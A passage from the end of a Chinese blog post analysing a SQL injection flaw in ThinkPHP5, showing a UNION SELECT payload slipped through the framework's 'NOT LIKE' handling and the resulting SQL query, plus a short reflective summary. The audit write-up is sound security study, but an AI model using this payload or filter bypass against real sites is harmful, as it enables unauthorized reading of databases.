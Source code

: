 即`(username NOT LIKE '1' ) UNION SELECT 1,USER()--  username NOT LIKE '2')`

即`(username NOT LIKE '1' ) UNION SELECT 1,USER()`

再看一下最后生成的SQL语句：
![image-20210903160755712](ThinkPHP5之SQLI审计分析(二)_images/image-20210903160755712.png)

`SELECT * FROM users WHERE  (username NOT LIKE '1' ) UNION SELECT 1,USER()--  username NOT LIKE '2') `

完美了，结束。

![image-20210903160922959](ThinkPHP5之SQLI审计分析(二)_images/image-20210903160922959.png)

### 0x03 总结

总感觉这个过程还有好多地方疏忽掉了，依然只是由答案推过程的行为。

因为欠缺的经验还是太多，所以文中可能废话也比较多，只是为了让自己更加理清逻辑。

关于not like可用是因为这个版本的tp在过滤的时候漏掉了带空格的`not like`这个在文中没有详细分析，比较不完美。

感谢七月火大佬的干货文章。